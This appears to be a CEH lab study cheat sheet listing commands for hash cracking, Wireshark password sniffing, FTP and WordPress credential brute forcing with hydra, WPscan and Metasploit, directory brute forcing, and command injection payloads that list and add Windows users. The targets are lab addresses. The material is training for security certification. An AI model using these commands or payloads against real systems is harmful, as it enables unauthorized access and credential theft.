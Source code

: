 ```

# Cryptography 
```
1. VERACRYPT
Open veracrypt > select Any drive J, k, L > Select mention file > Click on mount > enter pass[decrypt=hashes.com] > click ok > Now open the folder and content.
veracrypt >select file>enter pass[decrypt=hashes.com]>open folder and see text
2. BCTextEncoder
Open BCTextEncoder > Past Encoded value > Click on Decode > Decode will Done
```
# Cracking Hashes
Use [Crack Station](https://crackstation.net/) or [Hashes.com](https://hashes.com/en/decrypt/hash)
#  Sniffing
```
1. Password Sniffing using Wireshark- In pcap file apply filter: http.request.method==POST (you will get all the post request) Now to capture password click on edit in menu bar, then near Find packet section, on the "display filter" select "string", also select "Packet details" from the drop down of "Packet list", also change "narrow & wide" to "Narrow UTF-8 & ASCII", and then type "pwd" in the find section.
```
#  Hacking Web Servers
```
1. Footprinting web server Using Netcat and Telnet- nc -vv www.movies.com 80
						    GET /HTTP/1.0
						    telnet www.movies.com 80
						    GET /HTTP/1.0
2. Enumerate Web server info using nmap-  nmap -sV --script=http-enum www.movies.com
3. Crack FTP credentials using nmap-  nmap -p 21 10.10.10.10 (check if it is open or not)
				      ftp 10.10.10.10 (To see if it is directly connecting or needing credentials)
Then go to Desktop and in Ceh tools folder you will find wordlists, here you will find usernames and passwords file.
Now in terminal type-  hydra -L /home/attacker/Desktop/CEH_TOOLS/Wordlists/Username.txt -P /home/attacker/Desktop/CEH_TOOLS/Wordlists/Password.txt ftp://10.10.10.10

hydra -l user -P passlist.txt ftp://10.10.10.10 (if username is known)

4. Crack FTP
nmap -A -p 21 ip (Find os running)
sudo su (become root)
hydra -L user.txt -P pass.txt ftp://ip
ftp ip
and type: username and password
Now access the machine
```
#  Hacking Web Application
```
1. Scan Using OWASP ZAP (Parrot)- Type zaproxy in the terminal and then it would open. In target tab put the url and click automated scan.
2. Directory Bruteforcing- gobuster dir -u 10.10.10.10 -w /home/attacker/Desktop/common.txt
3. Enumerate a Web Application using WPscan & Metasploit BFA-  wpscan --url http://10.10.10.10:8080/NEW --enumerate u  (u means username) 
Then type msfconsole to open metasploit. Type -  use auxilliary/scanner/http/wordpress_login_enum
 						 show options
						 set PASS_FILE /home/attacker/Desktop/Wordlist/password.txt
						 set RHOSTS 10.10.10.10  (target ip)
						 set RPORT 8080          (target port)
						 set TARGETURI http://10.10.10.10:8080/
						 set USERNAME admin
4. Brute Force using WPscan -    wpscan --url http://10.10.10.10:8080/NEW -u root -P passwdfile.txt (Use this only after enumerating the user like in step 3)
			         wpscan --url http://10.10.10.10:8080/NEW --usernames userlist.txt, --passwords passwdlist.txt 
5. Command Injection-  | net user  (Find users)
 		       | dir C:\  (directory listing)
                       | net user Test/Add  (Add a user)